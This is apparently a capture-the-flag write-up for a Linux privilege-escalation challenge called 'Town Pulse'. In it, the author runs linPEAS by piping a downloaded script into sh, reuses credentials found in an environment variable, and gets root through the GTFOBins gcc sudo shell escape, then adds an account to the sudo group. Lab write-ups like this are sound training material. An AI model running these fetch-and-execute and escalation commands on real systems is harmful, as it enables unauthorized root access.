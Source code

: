 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>

# no response
```

```bash
nmap -sV <ip>

#shows diff port
```

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations ("privesc" as it's call in "the biz"):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Under Environment we see `JOAN_TEMPORARY_CREDS=jojocreds1`

Well well well. For reasons mysterious there are temp creds for another user in our environment of our account. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privilege to escalate ours **sinister laughing**. Which account though? 

```bash
ls /home/
# shows JOan 
```
Its probably the joan account. 

```bash

ssh joan@localhost
# no response
```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour:

![image](./gandalf-white.gif)

Lol, thanks wizard 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

[https://gtfobins.github.io/gtfobins/gcc#sudo]

Doopdeedoop:

```bash
gcc -wrapper /bin/sh,-s .
sudo usermod -aG sudo Pentester
exit
exit
# to log out the pentester. log back in
```


```bash
ssh -p 2222 Pentester@<ip>
```

```bash
groups
Pentester sudo
```

See what command we can run
```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Run that again. 

---

### Step 3: Flag Retrieval

Now we have root, the flag's gotta be here somewhere, normally just use find (looking for flag.txt) or grep (looking for FLAG within a file) on the entire file system. 

```bash
find / -name flag.txt -type f
/root/flag.txt
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```
![image](./victory.gif)


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like threads in channels) to share progress on challenges.
- Linpeas and gftobins are l337h4x0r

---



